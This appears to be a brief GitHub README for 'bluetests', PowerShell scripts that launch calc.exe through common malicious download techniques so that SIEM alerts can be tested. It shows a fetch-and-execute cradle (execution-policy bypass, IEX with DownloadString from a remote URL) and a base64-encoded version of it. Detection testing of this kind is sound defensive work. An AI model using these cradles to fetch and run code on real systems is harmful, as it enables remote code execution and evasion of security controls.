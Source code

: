 # bluetests
Just some basic scripts for testing SIEM alerts


Invoke-Calc
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

## Standard Execution
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/bluetests/main/invokecalc.ps1');invoke-calc"

## Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==

